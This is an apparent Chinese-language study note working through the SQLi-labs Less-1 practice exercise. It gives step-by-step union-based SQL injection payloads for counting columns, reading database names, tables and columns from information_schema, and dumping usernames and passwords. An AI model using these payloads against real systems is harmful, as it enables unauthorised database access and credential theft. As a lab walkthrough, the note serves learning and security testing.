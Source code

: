 # 相关学习资料

https://blog.csdn.net/likinguuu/article/details/136520040

https://blog.csdn.net/kknifek/article/details/141199152

# Less-1

1. 确定攻击点 确定网站可以注入的参数 比如：?id= ?ID= ?a= ?sd=

2. 判断闭合方式 ' --+

3. 判断字段列数 order by（页面正常 说明存在第几列）

   ```
   ?id=-1' order by 3 -- #
   ```

4. [联合查询](https://so.csdn.net/so/search?q=联合查询&spm=1001.2101.3001.7020) 查当前数据库名database()，数据库版本version()，数据库用户user(),表内数据

   ```
   ?id=-1' union select 1,version(),user() -- #
   ?id=-1' union select 1,database(),user() -- #
   ```

   上面已经查出3列，那么联合查询3列，[页面显示](https://so.csdn.net/so/search?q=页面显示&spm=1001.2101.3001.7020)的是id=1的数据，没有显示我们联合查询的数据，把人家前面查询的id的数据改成不存在的，比如-1，此时页面上出现了我们联合查询的回显点![image-20250307122604188](https://gitee.com/PUqicnda/img/raw/master/20250307122604244.png)

   ![image-20250307122717925](https://gitee.com/PUqicnda/img/raw/master/20250307122717970.png)

   grop_concat()函数：是将里面的多个行整合为一行即一个字符串，information_schema[见这里](http://t.csdnimg.cn/i8dik)，简单看一下column_name、table_name、table_schema对选取条件有帮助的就行。

   ```
   ?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()-- #获取表名
   ```

   ![image-20250307122753776](https://gitee.com/PUqicnda/img/raw/master/20250307122753822.png)

   ```
   ?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()-- #获取全部列名
   ?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'-- #获取users列名(注意，表名要用引号引起来）,同理获得其他表的列名
   ```

   ![image-20250307145226475](https://gitee.com/PUqicnda/img/raw/master/20250307145226523.png)

   ![image-20250307123005288](https://gitee.com/PUqicnda/img/raw/master/20250307123005348.png)

   ```
   ?id=-1' union select 1,group_concat(id,username,0x7e,password),3 from users-- #获取数据
   ?id=-1' union select 1,group_concat(id,0x7e,email_id),3 from emails-- #获取数据
   ?id=-1' union select 1,group_concat(id,referer,ip_address),3 from referers  -- #获取数据
   ?id=-1' union select 1,group_concat(id,uagent,ip_address,username),3 from uagents-- #获取数据
   ////不知道为什么后两条数据获取不了
   ```
   